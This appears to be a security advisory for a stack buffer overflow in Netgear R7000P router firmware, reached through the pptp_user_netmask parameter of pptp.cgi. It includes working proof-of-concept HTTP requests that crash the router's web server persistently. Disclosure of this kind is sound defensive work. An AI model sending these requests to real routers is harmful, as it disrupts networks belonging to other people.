




# Netgear Vulnerability

Vendor:Netgear

Product:R7000P

Version:1.3.3.154

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `pptp.cgi、wiz_pptp.cgi、genie_pptp.cgi、ru_wan_flow.cgi` function, `pptp_user_netmask` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `pptp_user_netmask` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `rst_cgi_get_wan_param` function. The parameter `pptp_user_netmask` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `pptp_user_netmask`, in `pptp.cgi`
* visit the `ADVANCED_home2.htm`

> Only for Russian-speaking regions, ensure that the `sku_name` value is RU


## PoC

We set `pptp_user_netmask` as **aaaaa......**, in `pptp.cgi`

```http
POST /pptp.cgi?id=06d5bfb46d0807a3aa2bb6c0e1628cad3d54f42fb5b5e381f61a210f90b612a3 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1840
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/BAS_pptp.htm
Cookie: XSRF_TOKEN=3105209343
Upgrade-Insecure-Requests: 1

apply=%E5%BA%94%E7%94%A8&login_type=PPTP&pptp_username=pjqwudi&pptp_passwd=abc123&pptp_dod=1&pptp_idletime=5&myip_1=192&myip_2=168&myip_3=31&myip_4=95&mymask_1=255&mymask_2=255&mymask_3=255&mymask_4=0&pptp_serv_ip=192.168.31.1&mygw_1=192&mygw_2=168&mygw_3=31&mygw_4=1&pptp_conn_id=pjqwudi&DNSAssign=0&MACAssign=0&runtest=no&wan_ipaddr=192.168.31.95&pptp_localip=0.0.0.0&pptp_user_ip=192.168.31.95&serv_ip=10.0.0.138&wan_dns_sel=0&wan_dns1_pri=0.0.0.0&wan_dns1_sec=...&wan_hwaddr_sel=0&wan_hwaddr_def=CC%3A40%3AD0%3A66%3A51%3A9C&wan_hwaddr2=CC40D066519C&wan_hwaddr_pc=FC%3A34%3A97%3A49%3A4B%3A24&pptp_gateway=192.168.31.1&gui_region=&pptp_user_netmask=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&static_pptp_enable=1&pptp_ip_sel=0&gui_language=Chinese&auto_time=0&ipv6_proto=fixed&ipv6_proto_auto=&auto_conn_time_default=0&parental_control=0&parental_circle=0&dial_on_demand_warning=1
```

<div  align="center"></div>

visit the `ADVANCED_home2.htm`

```http
GET /ADVANCED_home2.htm HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: XSRF_TOKEN=3105209343
Upgrade-Insecure-Requests: 1
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
